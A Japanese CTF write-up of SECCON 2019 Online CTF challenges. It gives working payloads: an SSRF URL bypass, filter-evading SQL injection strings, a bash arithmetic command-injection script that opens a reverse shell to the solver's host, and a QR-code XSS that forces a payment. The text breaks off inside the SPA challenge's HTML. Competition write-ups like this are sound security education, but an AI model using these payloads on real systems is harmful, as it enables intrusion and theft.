





10 月 19 日から 10 月 20 日にかけて開催された [SECCON 2019 Online CTF](https://www.seccon.jp/2019/seccon2019/seccon_ctf_2019_quals.html) に、チーム Harekaze (今回は Harekaze と zer0pts との合同チーム) として参加しました。最終的にチームで 4724 点を獲得し、順位は得点 799 チーム中 14 位でした。うち、私は 7 問を解いて 2277 点を入れました。

他のメンバーの write-up はこちら。

- [SECCON 2019 Online CTF Writeup - /var/log/hikalium](https://hikalium.hatenablog.jp/entry/2019/10/20/154511)
- [writeups/secconctf/2019 at master · hnoson/writeups](https://github.com/hnoson/writeups/tree/master/secconctf/2019)
- [SECCON Quals 2019 Writeup - yoshikingのがんばる日記](https://yoshiking.hatenablog.jp/entry/2019/10/21/010843)

以下、私が解いた問題の writeup です。

## 競技時間中に解けた問題
### Option-Cmd-U (Web 190)
> No more "View Page Source"!
> 
> (URL)

与えられた URL にアクセスすると、URL を入力するフォームが表示されました。HTML を見てみると以下のようなコメントがありました。

```html
                    <!-- src of this PHP script: /index.php?action=source -->
                    <!-- the flag is in /flag.php, which permits access only from internal network :-) -->
                    <!-- this service is running on php-fpm and nginx. see /docker-compose.yml -->
```

`flag.php` に内部ネットワーク経由でアクセスすればフラグが入手できるようです。`/index.php?action=source` にアクセスすると、この Web アプリケーションのソースコードが表示されました。

```php
<?php
if ($_GET['action'] === "source"){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Option-Cmd-U</title>
        <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/bulma/0.7.5/css/bulma.min.css">
        <script defer src="https://use.fontawesome.com/releases/v5.3.1/js/all.js"></script>
    </head>
    <body>
        <div class="container">                
            <section class="hero">
                <div class="hero-body">
                    <div class="container">
                        <h1 class="title has-text-centered has-text-weight-bold">
                            Option-Cmd-U
                        </h1>
                        <h2 class="subtitle has-text-centered">
                            "View Page Source" is no longer required! Let's view page source online :-)
                        </h2>
                        <form method="GET">
                            <div class="field has-addons">
                                <div class="control is-expanded">
                                    <input class="input" type="text" placeholder="URL (e.g. http://example.com)" name="url" value="<?= htmlspecialchars($_GET['url'], ENT_QUOTES, 'UTF-8') ?>">
                                </div>
                                <div class="control">
                                    <button class="button is-link">Submit</button>
                                </div>
                            </div>
                        </form>
                    </div>
                </div>
            </section>
            <section class="section">
                <pre>
                    <!-- src of this PHP script: /index.php?action=source -->
                    <!-- the flag is in /flag.php, which permits access only from internal network :-) -->
                    <!-- this service is running on php-fpm and nginx. see /docker-compose.yml -->
                    <?php
                    if (isset($_GET['url'])){
                        $url = filter_input(INPUT_GET, 'url');
                        $parsed_url = parse_url($url);                        
                        if($parsed_url["scheme"] !== "http"){
                            // only http: should be allowed. 
                            echo 'URL should start with http!';
                        } else if (gethostbyname(idn_to_ascii($parsed_url["host"], 0, INTL_IDNA_VARIANT_UTS46)) === gethostbyname("nginx")) {
                            // local access to nginx from php-fpm should be blocked.
                            echo 'Oops, are you a robot or an attacker?';
                        } else {
                            // file_get_contents needs idn_to_ascii(): https://stackoverflow.com/questions/40663425/
                            highlight_string(file_get_contents(idn_to_ascii($url, 0, INTL_IDNA_VARIANT_UTS46),
                                                               false,
                                                               stream_context_create(array(
                                                                   'http' => array(
                                                                       'follow_location' => false,
                                                                       'timeout' => 2
                                                                   )
                                                               ))));
                        }
                    }
                    ?>
                </pre>
            </section>
        </div>            
    </body>
</html>
```

入力した URL を `parse_url($url)` でパースし、スキームが `http` で、かつホスト名を解決した結果が `nginx` の IP アドレスでないことが確認できれば、`file_get_contents` で `$url` にアクセスして取得しています。

URL のチェックには `parse_url($url)` の返り値を利用していながら、`file_get_contents` の引数には `idn_to_ascii($url, 0, INTL_IDNA_VARIANT_UTS46)` が使われていることに着目します。`parse_url` と `file_get_contents` の挙動の違いを利用して、`$parsed_url['host']` には `nginx` の IP アドレスに解決されないホスト名が入り、`file_get_contents` では `nginx` に HTTP リクエストが飛ぶような URL を作ることはできないでしょうか。

[PHP SSRF Techniques - secjuice™ - Medium](https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51) を参考に、`http://nginx:80,example.com:80/flag.php` をフォームに入力するとフラグが得られました。

```
SECCON{what_a_easy_bypass_314208thg0n423g}
```

### web_search (Web 212)
> Get a hidden message! Let's find a hidden message using the search system on the site.
> 
> (URL)

与えられた URL にアクセスすると、検索フォームと、RFC の番号とタイトルの一覧が表示されました。

試しに `'` を検索すると `Error` と表示され、`''` を検索すると RFC 1313 (Today's Programming for KRFC AM 1313 Internet Talk Radio) が表示されました。MySQL 等では、シングルクォートで囲まれた文字列リテラル中では、シングルクォートは `''` のように書くことでエスケープできます。SQL インジェクションができるのでしょう。

うまくいけば全件が表示されるようなペイロードの `' or 1;#` を入力してみたところ、`Error` が表示されました。検索フォームには `'1;#` が出力されていることから、`or` と半角スペースが削除されているのでしょう。

他にどのような文字列や文字が削除されているか確認してみたところ、この他に `!` `%` `,` `|` が利用できないことがわかりました。これらの制限をバイパスできないか考えてみましょう。

`or` については、どうやらサーバ側では再帰的に削除する処理を行っていないようで、`oorr` のように入力することでバイパスできることが確認できました。

`!` `%` `|` は使えなくてもそこまで支障はありませんが、`,` は `select` 句で複数のカラムの値を取得するときに使うので困ります。`,` を代替できるものがないかググっていると、[ZoczuS Blog: SQL Injection without comma char](http://zoczus.blogspot.com/2013/03/sql-injection-without-comma-char.html) という記事がヒットしました。この記事では、以下のように `join` 句を使うことで `,` を代替しています。

```
$ sqlite3
sqlite> select 1, 2, 3 union select * from (select 4) a join (select 5) b join (select 6) c;
1|2|3
4|5|6
```

半角スペースについては、`/**/` のようにコメントを利用したり、他の適当な空白文字を使えばよいでしょう。

これらのバイパス手段を利用して、`'oorr(1);#` を入力すると `FLAG` というタイトルで `The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!` という内容の記事が表示されました。

`flag` テーブルからレコードを抽出するにはカラム名を知る必要があります。`neko'union/**/select*from(select/**/1)a/**/join(select/**/column_name/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='flag')b/**/join(select/**/3)c;#` を入力すると、`piece` というカラム名が取得できました。

`neko'union/**/select*from(select/**/1)a/**/join(select/**/piece/**/from/**/flag)b/**/join(select/**/3)c;#` を入力すると、`1` というタイトルで `You_Win_Yeah}` という内容の記事が表示されました。

```
SECCON{Yeah_Sqli_Success_You_Win_Yeah}
```

### SECCON_multiplicater (Web 457)
> (URL)
> 
> 添付ファイル: index.cgi

`index.cgi` は以下のような内容の bash スクリプトでした。

```bash
#!/bin/bash
 
SECCON_BANNER="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"

typeset -i var1
typeset -i var2

echo "Content-Type: text/html"
echo ""

cat << SECCON
<!doctype html>
<html><head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css" integrity="sha384-MCw98/SFnGE8fJT3GXwEOngsV7Zt27NXFoaoApmYm81iuXoPkFOJwJ8ERdknLPMO" crossorigin="anonymous">
<title>SECCON multiplicater</title>
</head>
<body>

<div class="container-fluid">
  <div class="row">
    <div class="ml-2">
      <h1> multiplicater</h1>
    </div>
  </div>
</div>

<form class="form-inline" action="$SCRIPT_NAME" method="post" enctype="application/x-www-form-urlencoded">
  <div class="container-fluid">
    <div class="row">
      <div class="ml-3">
        <input class="form-control" type="text" name="var1" size="5" placeholder="1-999" />
      </div>
      <div  class="ml-2" >
      *
      </div>
      <div  class="ml-2" >
       <input class="form-control" type="text" name="var2" size="5" placeholder="1-999" />
      </div>
      <div  class="ml-3" >
       <button type="submit" class="btn btn-primary">calculate</button>
      </div>
    </div>
  </div>
</form>

<div class="container-fluid">
  <div class="row">
    <div class="ml-3">
      <h2>
SECCON

if [ "$REQUEST_METHOD" = "POST" ]
then
  POST_STRING=$(cat)

  var1="$(echo $POST_STRING|awk -F'&' '{print $1}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"
  var2="$(echo $POST_STRING|awk -F'&' '{print $2}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"

  echo  "$var1" '*' "$var2 = $((var1 * var2))"
fi

cat << SECCON
      </h2>
    </div>
  </div>
</div>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</body>
</html>
SECCON
```

数値を 2 つ入力すると、これらをかけた数値を出力してくれる CGI スクリプトのようです。

`var1` と `var2` のいずれも `typeset -i` で数値型であると明示したうえで、アルファベットを削除し、また算術式を使っていることからセキュアなように見えます。…が、`算術式 bash osコマンド` 等でググってみると、[bash の危険な算術式 - どさにっき](http://ya.maya.st/d/201909a.html#s20190901_1)という記事がヒットしました。

この記事を参考にすれば OS コマンドを実行できそうですが、アルファベットが利用できないのがやっかいです。なんとかできないでしょうか。

bash では、`echo $'\x41'` (実行すると `A` が出力される) のように `$''` で囲むことで様々なエスケープシーケンスを利用できます。この中には `\101` のように文字コードを 8 進数で表記できるものもあります。これを利用しましょう。

実行したい OS コマンドをいい感じに変換してくれる Python スクリプトを書きます。

```python
import urllib.parse

def encode(s):
  return "$'" + ''.join(['\\' + oct(ord(c))[2:].zfill(3) for c in s]) + "'"

res = '_[$(' + ' '.join(encode(s) for s in ['sleep']) + ' 3)]'
print(urllib.parse.quote(res))
```

```
$ python convert.py
_%5B%24%28%24%27%5C163%5C154%5C145%5C145%5C160%27%203%29%5D
```

`nkf -w --url-input` は `+` を半角スペースとして解釈してくれないことに注意しながら、`curl` で叩いてみます。

```
$ curl (省略) -d "var1=1&var2=_%5B%24%28%24%27%5C163%5C154%5C145%5C145%5C160%27%203%29%5D"
︙
```

`<h2>` まで表示されてから、3 秒間のウェイトが入りました。どうやら OS コマンドの実行ができたようです。

では、リバースシェルでフラグを探してみましょう。

```python
import requests
import urllib.parse

URL = '(省略)'

def encode(s):
  return "$'" + ''.join(['\\' + oct(ord(c))[2:].zfill(3) for c in s]) + "'"

res = '_[$(' + ' '.join(encode(s) for s in ['/bin/bash', '-c', '/bin/bash -i >& /dev/tcp/(IP アドレス)/8000 0>&1']) + ')]'

print(requests.post(URL, data='var1=123&var2=' + urllib.parse.quote(res)).content)
```

```
$ sudo nc -lvp 8000
︙
bash: cannot set terminal process group (11384): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ ls
ls
index.cgi
www-data@ubuntu:/usr/lib/cgi-bin$ ls -la /
ls -la /
total 88
drwxr-xr-x  22 root root  4096 Oct  8 20:22 .
drwxr-xr-x  22 root root  4096 Oct  8 20:22 ..
drwxr-xr-x   2 root root  4096 Oct  8 16:02 bin
drwxr-xr-x   3 root root  4096 Sep 18 14:46 boot
drwxr-xr-x  17 root root  3820 Oct 19 11:30 dev
drwxr-xr-x  90 root root  4096 Oct 20 00:42 etc
-r--r--r--   1 root root    29 Oct  2 21:47 flag
drwxr-xr-x  13 root root  4096 Oct 17 19:13 home
lrwxrwxrwx   1 root root    33 Sep 18 14:46 initrd.img -> boot/initrd.img-4.15.0-64-generic
lrwxrwxrwx   1 root root    33 Sep 18 14:38 initrd.img.old -> boot/initrd.img-4.15.0-55-generic
drwxr-xr-x  18 root root  4096 Sep 18 14:40 lib
drwxr-xr-x   2 root root  4096 Sep 18 14:37 lib64
drwx------   2 root root 16384 Sep 18 14:37 lost+found
drwxr-xr-x   3 root root  4096 Sep 18 14:37 media
drwxr-xr-x   2 root root  4096 Aug  6 03:30 mnt
drwxr-xr-x   2 root root  4096 Aug  6 03:30 opt
dr-xr-xr-x 161 root root     0 Oct 19 11:30 proc
drwx------   3 root root  4096 Oct 19 13:48 root
drwxr-xr-x  19 root root   600 Oct 20 00:06 run
drwxr-xr-x   2 root root  4096 Sep 18 14:46 sbin
drwxr-xr-x   2 root root  4096 Aug  6 03:30 srv
dr-xr-xr-x  13 root root     0 Oct 19 11:30 sys
drwxrwxrwt   2 root root  4096 Oct 20 01:43 tmp
drwxr-xr-x  10 root root  4096 Sep 18 14:37 usr
drwxr-xr-x  12 root root  4096 Oct  8 20:20 var
lrwxrwxrwx   1 root root    30 Sep 18 14:46 vmlinuz -> boot/vmlinuz-4.15.0-64-generic
lrwxrwxrwx   1 root root    30 Sep 18 14:38 vmlinuz.old -> boot/vmlinuz-4.15.0-55-generic
www-data@ubuntu:/usr/lib/cgi-bin$ cat /flag
cat /flag
SECCON{Did_you_calculate_it?}
```

フラグが得られました。

```
SECCON{Did_you_calculate_it?}
```

### HakoniwaPay (Web 461)
> ZIP-Password: notvirus
> 
> 添付ファイル: hakoniwaPay.zip, buttons.png

`hakoniwaPay.zip` を展開すると `hakoniwaPay.exe` という Windows の実行ファイルと、`zxing.dll` と `zxing.presentation.dll` の恐らく QR コードやバーコードの読み取り用に用意されたライブラリが出てきました。

`buttons.png` は以下のような画像でした。



`hakoniwaPay.exe` の操作方法のようです。どうやらやまざきさんから 7777 円を奪うことができればフラグが得られるようです。

とりあえず `hakoniwaPay.exe` を立ち上げて、`Request Money` からやまざきさんに 7777 円を要求してみましたが何も反応はありません。

送金依頼時には、次のように QR コードが送信されていました。



これを読み取ってみると、`HAKONIWA-PAY:REQ:67e47ea5-9f9a-4f63-949d-6923f77d2cf9:d8d0f4c7-5c09-4b74-8a0a-1900ab540afd:7777:Give me money` と、`HAKONIWA-PAY:REQ:(ユーザ 1 の UUID):(ユーザ 2 の UUID):(送金額):(メッセージ)` のようなフォーマットになっていることが確認できました。

このメッセージで XSS ができないか確認してみましょう。メッセージを `<s>neko</s>` に書き換えて適当な QR コードジェネレータに投げて画像を生成します。これを `Read QR Code` から読み取ると、次のように表示されました。



`textarea` 内に出力されています。`<s>` の前に `</textarea>` を追加して `textarea` を閉じることができないか試してみましょう。



できました。

では、この XSS を利用して 7777 円を奪い取りましょう。送金の可否の意思確認にはフォームを利用しているはずなので、JavaScript で勝手に送信させてしまいます。メッセージを `</textarea><script>document.getElementsByTagName('form')[0].submit()</script>` に書き換えて QR コードを生成し、`Send QR Code` で送信すると次のように 7777 円を送金させることができました。


```
SECCON{1693509476}
```

### PPKeyboard (Reversing 352)
> Get a message.
> 
> 添付ファイル: PPKeyboard.exe, packets.pcapng

`packets.pcapng` を Wireshark で開くと、次のように USB キーボードかなにかで入力をしている様子が確認できました。



`Leftover Capture Data` を眺めていると、最後の方で `0999077f` や `09990d7f` を送信している様子が確認できました。フラグの最後の文字は `}` (文字コードで `0x7d`) なので、3 バイト目の下位 4 ビットをつなげていけばよいのでしょう。

まず `tshark -r packets.pcapng -T fields -e usb.capdata > cap.txt` で `Leftover Capture Data` を抽出します。続いて、1 ニブル単位で結合する Python スクリプトを書きます。

```python
import binascii

with open('cap.txt', 'r') as f:
  lines = f.readlines()

print(binascii.unhexlify(''.join(line[5] for line in lines[::4])))
```

```
$ python solve.py
b'Hey guys! FLAG is SECCON{3n73r3d_fr0m_7h3_p3rf0rm4nc3_p4d_k3yb04rd}'
```

フラグが得られました。

```
SECCON{3n73r3d_fr0m_7h3_p3rf0rm4nc3_p4d_k3yb04rd}
```

### Crazy Repetition of Codes (Crypto 326)
> I'm crazy about googology!
> 
> 添付ファイル: crc.py, requirements.txt

`crc.py` は以下のような内容でした。

```python
import os
from Crypto.Cipher import AES

def crc32(crc, data):
  crc = 0xFFFFFFFF ^ crc
  for c in data:
    crc = crc ^ ord(c)
    for i in range(8):
      crc = (crc >> 1) ^ (0xEDB88320 * (crc & 1))
  return 0xFFFFFFFF ^ crc

key = b""

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "TSG")
assert(crc == 0xb09bc54f)
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "is")
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "here")
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "at")
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "SECCON")
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "CTF!")
key += crc.to_bytes(4, byteorder='big')

flag = os.environ['FLAG']
assert(len(flag) == 32)

aes = AES.new(key, AES.MODE_ECB)
encoded = aes.encrypt(flag)
assert(encoded.hex() == '79833173d435b6c5d8aa08f790d6b0dc8c4ef525823d4ebdb0b4a8f2090ac81e')
```

`int("1" * 10000)` と異常な回数 CRC32 の計算をした結果を利用してフラグを暗号化しています。

私が問題を確認した時点で、[ふるつき](https://twitter.com/theoremoon)さんや [yoshiking](https://twitter.com/y05h1k1ng) さんによって CRC が衝突するまでの回数 (CRC が `0xb09bc54f` になるまでに `crc = crc32(crc, "TSG")` を繰り返した回数) を探せばよいのではないかというアイデアが出ていました。

雑に総当たりをしてみたところ、以下のように `169873741` 回で衝突することがわかりました。

```c
/* 省略 */
int main() {
  char * buf = "TSG";
  uint32_t _crc32 = 0;
  int i = 0;

  make_crc32_table();
  for (i = 0; i < 500000000; i++) {
    _crc32 = crc32(_crc32, (uint8_t * ) buf, 3);
    if (_crc32 == 0xb09bc54f) {
      printf("i=%d\n", i);
    }
  }

  return 0;
}
```

```
$ gcc -o a a.c && ./a
i=169873741
```

これを利用して `key` を求めます。

```c
/* 省略 */
int main() {
  char *buf[] = {"TSG", "is", "here", "at", "SECCON", "CTF!"};
  int sz[] = {3, 2, 4, 2, 6, 4};
  uint32_t _crc32;
  int i, j;
  unsigned char key[24] = {0};

  make_crc32_table();
  for (i = 0; i < 6; i++) {
    _crc32 = 0;

    for (j = 0; j < 169873741; j++) {
      _crc32 = crc32(_crc32, (uint8_t*)buf[i], sz[i]);
    }
    snprintf(key + i * 4, 5, "%c%c%c%c", (_crc32 & 0xff000000) >> 24, (_crc32 & 0xff0000) >> 16, (_crc32 & 0xff00) >> 8, _crc32 & 0xff); // BE
  }

  for (i = 0; i < 24; i++) {
    printf("%02x", key[i]);
  }
  putchar('\n');

  return 0;
}
```

```
$ gcc -o b b.c && ./b
b09bc54fe4a5927b8d3fef85b345bf3f5af656b0db496954
$ python2
>>> from Crypto.Cipher import AES
>>> key = 'b09bc54fe4a5927b8d3fef85b345bf3f5af656b0db496954'.decode('hex')
>>> flag = '79833173d435b6c5d8aa08f790d6b0dc8c4ef525823d4ebdb0b4a8f2090ac81e'.decode('hex')
>>> AES.new(key, AES.MODE_ECB).decrypt(flag)
'SECCON{Ur_Th3_L0rd_0f_the_R1NGs}'
```

フラグが得られました。

### Sandstorm (Misc 279)
> I've received a letter... Uh, Mr. Smith?
> 
> 添付ファイル: sandstorm.png

`sandstorm.png` は以下のような内容でした。


stegsolve.jar 等のステガノグラフィーツールで色々試してみましたが、フラグは得られません。なんとなくバイナリエディタで開き、最初の IDAT チャンクの length を `00 00 20 00` から `00 00 05 00` に変えて Google Chrome で開いてみたところ、以下のように QR コードが表示されました。


これを読み取るとフラグが得られました。

```
SECCON{p0nlMpzlCQ5AHol6}
```

## 競技終了後に解いた問題
### SPA (Web 427)
> Last day my colleague taught me the concept of the Single-Page Application, which seems to be the good point to kickstart my web application development. Well, now it turned out to be MARVELOUS!
> 
> (URL)
> 
> Steal the cookie.

与えられた URL にアクセスすると、次のような SPA が表示されました。

```html
<!DOCTYPE html>
<html lang="en" dir="ltr">
	<head>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1">
		<title>SECCON Flag Archives</title>
		<link rel="stylesheet" href="https://unpkg.com/bulmaswatch/nuclear/bulmaswatch.min.css">
		<link rel="icon" type="image/png" href="/favicon.png" />
		<style>
			.container {
				padding: .75rem;
			}
			.contest-title {
				margin-top: 1rem;
			}
			.contest-list > .title {
				font-size: 12vmin;
			}
			.title.padded {
				margin-top: 3rem;
			}
			.contest {
				display: block;
				padding: 0.5rem;
			}
			.contest-name {
				margin-bottom: 0 !important;
			}
			.flag {
				font-family: monospace;
				font-size: 1.6rem;
				word-break: break-all;
			}
			.flag-shaken {
				animation: shake 0.3s linear infinite;
				display: inline-block;
				color: #444;
			}
			.flag-shaken:nth-child(3n) { animation-delay: -0.05s; }
			.flag-shaken:nth-child(3n+1) { animation-delay: -0.15s; }
			@keyframes shake {
				0% { transform: translate(0px, 0px) rotateZ(0deg) }
				10% { transform: translate(4px, 4px) rotateZ(4deg) }
				20% { transform: translate(0px, 4px) rotateZ(0deg) }
				30% { transform: translate(4px, 0px) rotateZ(-4deg) }
				40% { transform: translate(0px, 0px) rotateZ(0deg) }
				50% { transform: translate(4px, 4px) rotateZ(4deg) }
				60% { transform: translate(0px, 0px) rotateZ(0deg) }
				70% { transform: translate(4px, 0px) rotateZ(-4deg) }
				80% { transform: translate(0px, 4px) rotateZ(0deg) }
				90% { transform: translate(4px, 4px) rotateZ(-4deg) }
				100% { transform: translate(0px, 0px) rotateZ(0deg) }
			}
		</style>
	</head>
	<body>
		<div id="app">
			<nav class="navbar is-light" role="navigation" aria-label="main navigation">
				<div class="navbar-brand">
					<a class="navbar-item" @click="goHome()">SECCON Flag Archives</a>
					<a
						role="button"
						class="navbar-burger burger"
						aria-label="menu"
						aria-expanded="false"
						@click="isActive = !isActive"
					>
						<span aria-hidden="true"></span>
						<span aria-hidden="true"></span>
						<span aria-hidden="true"></span>
					</a>
				</div>
				<div class="navbar-menu" :class="{'is-active': isActive}">
					<div class="navbar-start">
						<a class="navbar-item" @click="goHome()">
							Home
						</a>
						<a v-for="contest in contests" :key="contest.id" class="navbar-item" @click="goContest(contest.id)">
							{{contest.name}}
						</a>
					</div>
				</div>
			</nav>
			<div v-if="route === 'home'" class="container">
				<div class="contest-list">
					<h1 class="title padded has-text-success has-text-centered">SECCON Flag Archives</h1>
					<h2 class="subtitle has-text-centered has-text-grey-light">Complete list of the golden flags that appeared in the past SECCON CTFs</h2>
					<div class="columns">
						<div v-for="contest in contests" :key="contest.id" class="column">
							<a @click="goContest(contest.id)" class="contest has-background-success has-text-centered">
								<div class="title has-text-light contest-name is-size-3">{{contest.name}}</div>
								<div class="title has-text-light is-size-6">{{contest.count}} flags</div>
							</a>
						</div>
					</div>
					<div class="has-text-centered">
						<a @click="goReport()" class="subtitle has-text-success">
							Report Admin
						</a>
